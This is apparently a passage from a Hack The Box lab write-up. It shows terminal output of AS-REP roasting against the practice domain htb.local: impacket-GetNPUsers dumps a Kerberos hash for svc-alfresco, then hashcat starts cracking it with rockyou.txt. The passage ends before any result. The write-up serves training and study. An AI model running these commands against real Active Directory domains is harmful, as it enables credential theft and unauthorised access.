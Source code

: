 ```c
┌──(kali㉿aidenpearce369)-[~]
└─$ impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161         
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2022-03-27 03:28:19.172241  2019-09-23 07:09:47.931194  0x410200 
```

Requesting a ```TGT``` to crack it to get the plain text password by ```ASREP-Roasting```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161  -no-pass
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:10789994ae3d40e257d6c0e341ae6f8c$4112d63482946a571be87d25346e273412f1e2eefedaada1fbbd53eafd84b4234072c65cade3a75a6d4f0b27336d8fd8a34e6a0c892df2018ec81b3dd7777cb41f56266ef96257039e2f0698f9205c10ad29152a730d3c33d76c5e80c1a70ecc63298357541c87c1c13afb74e2388a912bd6666b3fa7e1ced044a117bd1b365bbc878b72cc181330082c01617077c2a17485dbbb7ae97b58d2317dbc667c540f6914140929dcb26c7b1148e29b9a47b30eafe1f11d461a8a61cce59e2c3295698ef1599b2412670fb1e4b70894eecf172deaa791cd407d0f76bb57ef92c68aeb8dd0ee55b3b9
```

Now cracking the TGT using ```hashcat```,

```c
┌──(aidenpearce369㉿ragnar)-[~]
└─$ hashcat -h | grep 18200
  18200 | Kerberos 5 AS-REP etype 23                       | Network Protocols
                                                                                                    
┌──(aidenpearce369㉿ragnar)-[~]
└─$ hashcat -m 18200 '$krb5asrep$23$svc-alfresco@HTB.LOCAL:10789994ae3d40e257d6c0e341ae6f8c$4112d63482946a571be87d25346e273412f1e2eefedaada1fbbd53eafd84b4234072c65cade3a75a6d4f0b27336d8fd8a34e6a0c892df2018ec81b3dd7777cb41f56266ef96257039e2f0698f9205c10ad29152a730d3c33d76c5e80c1a70ecc63298357541c87c1c13afb74e2388a912bd6666b3fa7e1ced044a117bd1b365bbc878b72cc181330082c01617077c2a17485dbbb7ae97b58d2317dbc667c540f6914140929dcb26c7b1148e29b9a47b30eafe1f11d461a8a61cce59e2c3295698ef1599b2412670fb1e4b70894eecf172deaa791cd407d0f76bb57ef92c68aeb8dd0ee55b3b9' /opt/wordlists/rockyou.txt 
hashcat (v5.1.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
nvmlDeviceGetFanSpeed(): Not Supported

OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: NVIDIA GeForce RTX 3050 Laptop GPU, 977/3910 MB allocatable, 16MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
```